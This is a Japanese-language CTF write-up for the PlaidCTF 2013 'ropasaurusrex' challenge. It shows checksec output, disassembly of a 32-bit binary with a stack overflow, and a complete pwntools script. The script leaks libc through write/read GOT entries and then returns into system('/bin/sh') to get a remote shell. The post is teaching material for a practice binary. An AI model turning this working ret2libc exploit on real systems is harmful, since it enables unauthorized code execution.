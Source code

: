 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2013/plaidctf-2013-ropasaurusrex/
  - /blog/2016/02/15/plaidctf-2013-ropasaurusrex/
date: 2016-02-15T23:20:14+09:00
tags: [ "ctf", "writeup", "pwn", "plaidctf", "return-oriented-programming", "buffer-overflow", "stack-overflow" ]
---
```


# Plaid CTF 2013 ropasaurusrex

binary読んだり脆弱性探したりする必要がなく単にropするだけなのでとても楽。

## [ropasaurusrex](http://shell-storm.org/repo/CTF/PlaidCTF-2013/Pwnable/ropasaurusrex-200/)

``` sh
$ file ropasaurusrex
ropasaurusrex: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=96997aacd6ee7889b99dc156d83c9d205eb58092, stripped

$ checksec --file ropasaurusrex
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   ropasaurusrex
```

xinetd型。relro無し。canary無し。libcは与えられる。

``` sh
$ ll ropasaurusrex
-rwxr-xr-x 1 user user 2948 Apr 22  2013 ropasaurusrex
```

コードはとても短かくて、実質以下のふたつの関数のみからなる。

``` asm
080483f4 <bof>:
 80483f4:       55                      push   ebp
 80483f5:       89 e5                   mov    ebp,esp
 80483f7:       81 ec 98 00 00 00       sub    esp,0x98
 80483fd:       c7 44 24 08 00 01 00    mov    DWORD PTR [esp+0x8],0x100
 8048404:       00 
 8048405:       8d 85 78 ff ff ff       lea    eax,[ebp-0x88]
 804840b:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 804840f:       c7 04 24 00 00 00 00    mov    DWORD PTR [esp],0x0
 8048416:       e8 11 ff ff ff          call   804832c <read@plt>
 804841b:       c9                      leave  
 804841c:       c3                      ret    

0804841d <main>:
 804841d:       55                      push   ebp
 804841e:       89 e5                   mov    ebp,esp
 8048420:       83 e4 f0                and    esp,0xfffffff0
 8048423:       83 ec 10                sub    esp,0x10
 8048426:       e8 c9 ff ff ff          call   80483f4 <bof>
 804842b:       c7 44 24 08 04 00 00    mov    DWORD PTR [esp+0x8],0x4
 8048432:       00 
 8048433:       c7 44 24 04 10 85 04    mov    DWORD PTR [esp+0x4],0x8048510 # "WIN\n"
 804843a:       08 
 804843b:       c7 04 24 01 00 00 00    mov    DWORD PTR [esp],0x1
 8048442:       e8 c5 fe ff ff          call   804830c <write@plt>
 8048447:       c9                      leave  
 8048448:       c3                      ret    
```

### 攻撃

普通にropする。`read`のアドレスを`write`して脆弱性のある関数を呼び出し、得られた`read`のアドレスから`system`と`"/bin/sh"`を計算し、再度ropしこれを呼ぶ。

### 実装

`objdump -R ropasaurusrex | grep read`とかして出てきたアドレスをコピペして即値として使ってたらコピペミスが発生したので、ちゃんとpwnlibの[機能](http://pwntools.readthedocs.org/en/2.2/elf.html)を使いました。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
args = parser.parse_args()

elf = ELF('./ropasaurusrex')
if args.host == 'localhost':
    libc = ELF('/usr/lib32/libc.so.6')
else:
    libc = ELF('./libc.so.6')

bof = 0x80483f4 # the vulnerable function
buffer_len = 0x88

context.log_level = 'debug'
p = remote(args.host, args.port)

payload = ''
payload += 'A' * buffer_len
payload += 'AAAA' # saved ebp
payload += p32(elf.symbols['write'])
payload += p32(bof)
payload += p32(1) # stdout
payload += p32(elf.got['read'])
payload += p32(4) # len
p.send(payload)
resp = p.recvn(4)
read = u32(resp)
libc_base = read - libc.symbols['read']

payload = ''
payload += 'A' * buffer_len
payload += 'AAAA' # saved ebp
payload += p32(libc_base + libc.symbols['system'])
payload += 'AAAA' # cont
payload += p32(libc_base + next(libc.search('/bin/sh')))
p.send(payload)

p.sendline('ls')
p.interactive()
```
